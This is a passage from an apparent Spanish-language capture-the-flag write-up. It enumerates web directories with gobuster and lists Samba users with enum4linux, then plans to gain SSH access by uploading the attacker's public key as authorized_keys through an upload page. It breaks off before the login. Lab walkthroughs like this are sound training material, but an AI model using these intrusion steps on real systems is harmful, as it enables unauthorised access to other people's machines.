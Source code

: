 ```ruby
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2410]
/upload.php           (Status: 200) [Size: 56]
/readme.txt           (Status: 200) [Size: 78]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
Progress: 191519 / 882244 (21.71%)
===============================================================
Finished
===============================================================
```

Como vemos, hay un "readme.txt" que si entramos desde el navegador tiene esto:

```css
It may be that the file that is being uploaded is being uploaded in a .ssh/?
```

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id\_rsa.pub" con el nombre "authorized\_keys" y conectarnos sin necesidad de clave, el problema es que necesitamos un usuario, por lo que podriamos probar en ver si encontramos algun usuario en el samba y ver si nos sirve.

```css
enum4linux <ip>
```

Luego de ejecutarlo veremos muchas cosas, pero lo mas importante es esta línea:

```css
S-1-22-1-1000 Unix User\root-false (Local User)
S-1-22-1-1001 Unix User\sambauser (Local User)
S-1-22-1-1002 Unix User\less (Local User)
S-1-22-1-1003 Unix User\passsamba (Local User)
```

Estos son los usuarios que hemos encontrado, por lo que ahora si subiremos el "id\_rsa" como "authorized\_keys" y luego nos conectaremos.

## INTRUSION

Para generar una clave "id\_rsa" (en caso de que no la tengamos), debemos ejecutar en nuestra máquina atacante el comando `ssh-keygen`. Una vez ejecutado nos generará un archivo llamado "id\_rsa" y "id\_rsa.pub" en nuestro directorio `home` y metido en una carpeta llamada `.ssh`. Ahora que ya tenemos la clave simplemente la copiamos a algún lugar "comodo" para poder subirlo, lo haremos de la siguiente manera:

```css
cp ~/.ssh/id_rsa.pub ~/authorized_keys
```

Una vez hecho eso, subimos el archivo "authorized\_keys" en la página. Ahora vamos al directorio `.ssh` donde se encuentra el archivo "id\_rsa" y le damos permisos de ejecución ejecutando `chmod 600 id_rsa` y vamos probando cada uno de los usuarios encontrados de la siguiente manera:

